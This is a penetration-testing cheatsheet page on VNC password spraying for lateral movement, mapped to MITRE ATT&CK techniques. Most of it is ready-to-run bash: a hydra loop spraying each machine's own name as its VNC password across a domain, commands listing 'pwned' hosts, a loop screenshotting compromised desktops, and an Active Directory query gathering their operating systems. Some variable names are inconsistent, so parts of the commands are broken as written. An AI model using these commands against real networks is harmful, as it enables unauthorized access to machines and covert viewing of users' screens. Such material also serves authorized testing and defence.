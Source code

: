 ```yaml
---
layout: post
title: / pen / move / vnc
category: pen
parent: cheatsheets
modified_date: 2023-02-07
permalink: /pen/move/vnc
---
```


**Mitre Att&ck Entreprise**: 
* [TA0006 - Credentials Access](https://attack.mitre.org/tactics/TA0006/)
* [T1021  - Remote Services](https://attack.mitre.org/techniques/T1021/)

**Menu**
<!-- vscode-markdown-toc -->
* [RUN Password Spraying](#RUNPasswordSpraying)
* [EDIT hydra return & LIST pwned machines](#EDIThydrareturnLISTpwnedmachines)
* [VALIDATE LIST + SCREENSHOT of pwned desktops](#VALIDATELISTSCREENSHOTofpwneddesktops)
* [STATS of pwned machines](#STATSofpwnedmachines)
* [FILE TRANSFER](#FILETRANSFER)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

## <a name='RUNPasswordSpraying'></a>RUN Password Spraying

**Case 1** : vnc_pwd == $ztarg_computer_name 
```bash
# // terminator || tmux / vsplit panel 1 / monitor progression
# // terminator || tmux / vsplit panel 1 / monitor progression / tail 
tail -f pt_XXX_hydra_vnc_output.txt

# // terminator || tmux / vsplit panel 0 / hsplit panel 0 / 
# // terminator || tmux / vsplit panel 0 / hsplit panel 0 / run / pwd spraying over vnc using hydra /
while read ztarg_computer_fqdn; do vnc_pwd=$(echo $ztarg_computer_name | cut -d"." -f1 | tr '[:upper:]' '[:lower:]'); hydra  -p $vnc_pwd vnc://$ztarget_computer_fqdn -w 2/0 -t 4 >> pt_XXX_hydra_vnc_output.txt; done < pt_XXX_getnetcomputers_OU_XXX_all.txt

# // terminator || tmux / vsplit panel 0 / hsplit panel 1 / monitor progression / 
# // terminator || tmux / vsplit panel 0 / hsplit panel 1 / monitor progression / get success conns / 
grep -c successfully pt_XXX_hydra_vnc_output.txt
grep -c "^\[5900\]" pt_XXX_hydra_vnc_output.txt
# // terminator || tmux / vsplit panel 0 / hsplit panel 1 / monitor progression / 
# // terminator || tmux / vsplit panel 0 / hsplit panel 1 / monitor progression / check last $ztarg_computer_name displayed by 'vsplit panel 1 / tail' /
grep -n  $ztarg_computername pt_XXX_getnetcomputers_OU_XXX_all.txt.txt
```

## <a name='EDIThydrareturnLISTpwnedmachines'></a>EDIT hydra return & LIST pwned machines 
```bash
# // terminator || tmux / vsplit panel 0 / hsplit panel 1 / return / format output & list zpwned_computer_name
grep "^\[5900\]" pt_XXX_hydra_vnc_output.txt | cut -f3 -d " " > pt_XXX_hydra_vnc_pwned.txt
grep "^\[5900\]" -A 2 pt_XXX_hydra_vnc_output.txt | cut -f3 -d " " > pt_XXX_hydra_vnc_pwned.txt
```

## <a name='VALIDATELISTSCREENSHOTofpwneddesktops'></a>VALIDATE LIST + SCREENSHOT of pwned desktops
```bash
while read ztarg_computer_fqdn; do export vnc_pwd=$(echo $ztarg_computer_fqdn | cut -d"." -f1 | tr '[:upper:]' '[:lower:]');   echo $vnc_pwd | vncpasswd -f > ./vnc_pwd.txt; echo -n $ztarg_computer_fqdn:; cat vnc_pwd.txt; vncsnapshot -passwd ./vnc_pwd.txt $ztarg_computer_fqdn pt_XXX_hydra_vnc_$ztarg_computer_fqdn.png >> pt_XXX_vncsnapshot_output.txt; done < pt_XXX_hydra_vnc_pwned.txt
```

## <a name='STATSofpwnedmachines'></a>STATS of pwned machines
```bash
# get the cn computer (1 line) and its OS (1 line) 
while read ztarg_computer_fqdn; python pywerview.py get-netcomputer --computername $ztarg_computer_fqdn -w $zdom_fqdn -u $ztarg_user_name -p XXX --dc-ip $zdom_dc_ip --attributes cn operatingSystem >> pt_XXX_getcomputer_XXX_os.txt; done < pt_XXX_hydra_vnc_pwned.txt

# format the result returned to CSV
i=0; while read line; do i=$(($i+1)); if [[ $i == 1 ]]; then echo $line | sed 's/^.*:\s\(.*\)$/\1/' | tr '\n' ',' >> pt_XXX_getnetcomputer_XXX_os.csv ; elif [[ $i == 2 ]]; then echo $line | sed 's/^.*:\s\(.*\)$/\1/' >> pt_XXX_getnetcomputer_XXX_os.csv; i=0; fi; done < pt_XXX_getcomputer_XXX_os.txt
```

Run the playbook [pen_enum_computers_os_piechart](https://github.com/jomivz/jomivz.github.io/playbook/pen_enum_computers_os_piechart.ipynb) to generate the chart pie per operating system.

![computers per OS](/assets/images/playbook_piechart_computers_per_os.png)

## <a name='FILETRANSFER'></a>FILE TRANSFER

Tools to transfer files via VNC (works on Windows 10 only):

* [Invoke-Transfer](https://github.com/JoelGMSec/Invoke-Transfer)